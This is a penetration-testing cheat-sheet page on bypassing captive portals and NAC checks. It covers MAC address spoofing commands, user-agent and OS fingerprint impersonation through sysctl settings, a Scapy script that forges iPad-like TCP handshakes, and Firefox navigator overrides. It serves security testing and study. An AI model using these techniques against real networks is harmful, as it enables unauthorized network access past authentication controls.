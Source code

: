 # ⭕ Captive Portal

#### The initial barrier in some networks with inline or OOB management. captive portal changes the VLAN with SNMP post-authentication. sometimes IP and/or MAC is used to validate clients.

### Attack Surfaces

* Targeting captive portal server (web application authentication form)
* Targeting pre-auth services such as DNS and DHCP
* Targeting pre-authenticated client devices (MAC spoof)

## Pre-Auth Client Impersonation

### MAC Spoof

#### use wireshark or other sniffers to find the MAC address of current authenticated devices

now try to impersonate that MAC address:

#### Linux

```
ifconfig eth0 down
ifconfig eth0 hw ether <MAC address>
ifconfig eth0 up
```

#### Windows

```
macshift.exe -i "Wireless Network Connection" <MAC address without colon>
```

#### OSX

```
sudo ifconfig en0 ether <MAC address>
```

{% hint style="info" %}
You find a list of all OUIs in `/usr/local/share/oui.txt` file in linux
{% endhint %}

## Authentication Bypass (Avoiding)

### User-Agent Impersonation

We can use browser plugins such as "user-agent switcher" for firefox to impersonate another device identity.

### TCP Stack Fingerprinting

An additional method used for identifying the OS of clients in a NAC environment is through TCP stack fingerprinting. Primarily used by inline captive portal systems, the gateway can passively monitor TCP traffic to identify characteristics that correlate to the known platform. This technique is similar to that used by the opensource tool "p0f", which examines TCP SYN frames for the following characteristics:

* Initial Time To Live (TTL)
* TCP window size
* Overal frame size of initial TCP SYN frames
* Status of the Dont Fragment (DF) flag
* Value of the maximum segment size
* value of the TCP window scale
* Behavior of the TCP timestamp option
* Status of the selective ACK flag
* Order and presence of TCP flags including NOPs
* Unique quirks for the TCP SYN packet (such as packet data following TCP options)

```
p0f
```

### OS Impersonation

#### Linux

[The fingerprint format](https://github.com/p0f/p0f/blob/master/docs/README#L513-L624):

`sig = ver:ittl:olen:mss:wsize,scale:olayout:quirks:pclass`

#### You will need to spoof the following to change your fingerprint:

* OS TTL: `sudo sysctl net.ipv4.ip_default_ttl=128` (Windows)
* Maximum Segment Size: `sudo sysctl net.ipv4.route.min_adv_mss=1460`
* TCP window size: `sudo sysctl -w net.ipv4.tcp_rmem='8192 87380 4194304' && sudo sysctl -w net.ipv4.tcp_wmem='8192 87380 4194304'`
* Unfortunately, at the `olayout` section you cannot change these settings in Linux. So, you cannot spoof these. The same is true in the `quirks` section. It just so happens that `olayout` "...is one of the most valuable TCP fingerprinting signals.

#### Windows

use the OSfuscate tool from Irongeek, available at http://www.irongeek.com/i.php?page=security/code. OSfuscate uses a simple list of Windows INI formatted profile descriptor files to describe several characteristics of a target TCP/IP stack.

{% embed url="http://irongeek.com/downloads/OSfuscate.3.zip" %}

{% hint style="info" %}
NAC systems do not attempt to perform OS characterization and client checking for each packet; instead, clients are evaluated initially when they connect to the network and at later regular intervals. On Cisco NAC systems, for example, clients are evaluated initially and then as frequently as every 5 minutes, but not less, due to performance limitations of the product.
{% endhint %}

we can craft packets using any arbitrary settings to send for the NAC to use in its evaluation, generating our traffic to appear like an iPad device. Tools such as Scapy make this straightforward, allowing us to send the initial TCP SYN and complete the three-way handshake.

#### scapy script

```python
#!/usr/bin/python
from scapy.all import *
DSTIP="10.10.10.110" # Specify your target where NAC will observe it
SPORT=RandNum(1024,65535)
ip=IP(dst=DSTIP, flags="DF", ttl=64)
tcpopt = [ ("MSS",1460), ("NOP",None), ("WScale",2), ("NOP",None),
("NOP",None), ("Timestamp",(123,0)), ("SAckOK",""), ("EOL",None) ]
SYN=TCP(sport=SPORT, dport=80, flags="S", seq=10, window=0xffff, options=tcpopt)
SYNACK=sr1(ip/SYN)
# Send the packet and record the response as SYNACK
my_ack = SYNACK.seq + 1 # Use the SYN/ACK response to get initial seq. number
ACK=TCP(sport=SPORT, dport=80, flags="A", seq=11, ack=my_ack, window=0xffff)
send(ip/ACK)
data = "GET / HTTP/1.1\r\nHost: " + DSTIP + "\r\ Mozilla/5.0 (iPad; CPU iPad OS 10_0 like Mac OS
X) [...]\r\n\r\n"
PUSH=TCP(sport=SPORT,dport=80, flags="PA", seq=11, ack=my_ack, window=0xffff)
send(ip/PUSH/data)
RST=TCP(sport=SPORT,dport=80, flags="R", seq=11, ack=0, window=0xffff)
send(ip/RST)
```

Using this script, the p0f tool identifies the traffic as an "iOS Apple iPad/iTouch/iPad" device, sufficiently fooling a NAC device into thinking the TCP stack is of an iPad or related device. Once you complete the three-way handshake and send data, the NAC system will pass the client for this TCP fingerprint check, allowing you to disable the local firewall rules we created earlier ("iptables -F") and use your native operating system TCP stack.

### JavaScript OS Validation

identify the native operating system of a client is to insert JavaScript code in an HTTP server's response that queries several browser DOM fields.

#### four fields commonly used for client OS detection:

• navigator.buildID – Used to disclose the build number for the browser; not used by Apple's Safari on the iPad

• navigator.oscpu – Used to disclose the CPU type used on the host; not used by Apple's Safari on the iPad

• navigator.product – Used to disclose the product name; set to "Gecko"

• navigator.productSub – Used to disclose a sub-name to the product field; set to "20030107" on Apple's Safari on the iPad

#### To bypass a NAC system using JavaScript OS validation, we need to manipulate the responses from these fields as well. We could use a different plugin, tampering proxy, or fake the settings with the browser itself to deceive fingerprinting techniques.

{% hint style="info" %}
Firefox allows us to customize the values that are returned from the DOM through JavaScript by creating configuration keys in the format general.XXX.override, where "XXX" is the all-lowercase name of the DOM suffix after "navigator." (For example, to override navigator.oscpu, we can create a key called general.oscpu.override with an arbitrary string value.)

1. Browse to the "about:config" page to access the Firefox configuration key menu.
2. Right-click any key and select New | String.
3. In the "New String Value" dialog, enter the string "general.XXX.override", where "XXX" is the name of the DOM key you wish to manipulate. Click OK.
4. Enter the value for the key to match that of the client you are impersonating. In the example on this slide, the key "general.oscpu.override" is configured with the string value "undefined", matching that of the iPad.
{% endhint %}
